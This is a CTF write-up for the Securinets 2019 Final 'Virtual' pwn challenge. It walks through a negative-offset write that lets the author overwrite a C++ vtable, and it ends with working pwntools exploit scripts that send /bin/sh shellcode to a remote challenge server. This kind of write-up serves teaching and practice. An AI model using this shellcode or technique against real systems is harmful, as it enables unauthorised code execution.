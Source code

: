 ```yaml
---
layout: post
current: post
cover: assets/images/securinets.jpg
navigation: True
title: Securinets 2019 Final - Virtual Pwn challenge
date: 2019-03-24 18:10:00
tags: Writeup CTF Pwn Cpp Exploit
class: post-template
subclass: "post tag-pwn tag-ctf"
author: SakiiR
---
```


Blackfoot Security went to the Securinets CTF Final event @ Tunis the April 14 2019.

Virtual was a pwn challenge that gaves us **467pts**.

Let's first get some information about the binary and its behaviour:

![Binary Information](/assets/images/virtual/information.png)

Checksec output:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

This is a pretty simple binary, allowing us to set our age and reading some bytes.

Let's open the binary in Ghidra and see what is going on.

```c

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */
/* Customizer::init() */

void __thiscall init(Customizer *this)

{
  short age_cpy;
  char *user_inp;
  Customizer *__s;
  size_t sVar1;
  int age;

  (**(code **)(**(int **)(this + 0x48) + 4))(*(undefined4 *)(this + 0x48));
  puts("But first, how old are you ?");
  age = 0;
  fflush(stdin);
  scanf("%d",&age);
  if (0x1e < age) { // This is verifying if out age is over 0x1e but not if our age is less than 0 :)
    puts("hemm you are too older for this chall :\\");
  }
  age_cpy = (short)age;
  user_inp = (char *)mmap((void *)0x20202020,7,3,0x22,0,0);
  fflush(stdin);
  fgets(user_inp,0x28,stdin);
  fgets(user_inp,0x28,stdin);
  strcpy((char *)(this + (int)age_cpy),user_inp); // Copying user input in this + age
  __s = this + (int)age_cpy;
  sVar1 = strlen((char *)__s);
  __s[sVar1] = (Customizer)0x0;
  trigger(this,(char *)__s);
  return;
}
```

As written as a comment in the source code, it is not possible as an attacker to overwrite too far after the object pointer...

But the code does not check if we write before the pointer.

In Fact, we may write `0x28` bytes before the `this` object.

The goal will be to overwrite the vtable to control EIP when the object destruct itself.

This will be possible by writing `-100` byte before `this`.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
#
# Let's go now (:

from pwn import *


def main():
    context.terminal = ["tmux", "splitw", "-h"]

    s = gdb.debug("./virtual", "c\n")

    # Sending age
    s.sendlineafter("?", str(-100))

    # Making payload
    payload = ""
    payload += "A" * 4
    payload += p32(0xDEADBEEF)

    s.sendline(payload)

    s.interactive()


if __name__ == "__main__":
    main()
```

![Crash](/assets/images/virtual/deadbeef.png)

So now, we have a crash. We also know that there is no boring protection useful since the program is allocating us some bytes at the address `0x20202020`.

As show on the screenshot below, our buffer is mapped `rwx` at `0x20202020`.

![VMMap](/assets/images/virtual/vmmap.png)

Using a basic 32bits /bin/sh shellcode will get us a shell.

> We use 0xcc to make sure our shellcode is executed locally

```python

#!/usr/bin/env python
# -*- coding: utf-8 -*-
#
# @SakiiR

from pwn import *


def main():
    context.terminal = ["tmux", "splitw", "-h"]

    # s = gdb.debug("./virtual", "c\n")
    # s = process("./virtual")
    s = remote("3.86.187.67", 6666)

    shellcode = (
        "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f"
        "\x73\x68\x68\x2f\x62\x69\x6e\x89"
        "\xe3\xb0\x0b\xcd\x80"
    )
    s.sendlineafter("?", str(-100))

    payload = ""
    payload += "A" * 4
    # +8 to go after the first A and the return address.
    # -0x20 because the addresse is computed like that in the destructor
    payload += p32((0x20202020 + 8) - 0x20)
    payload += "\x90"
    payload += shellcode
    # payload += "\xcc" # useless now :)

    s.sendline(payload)

    s.interactive()


if __name__ == "__main__":
    main()

```

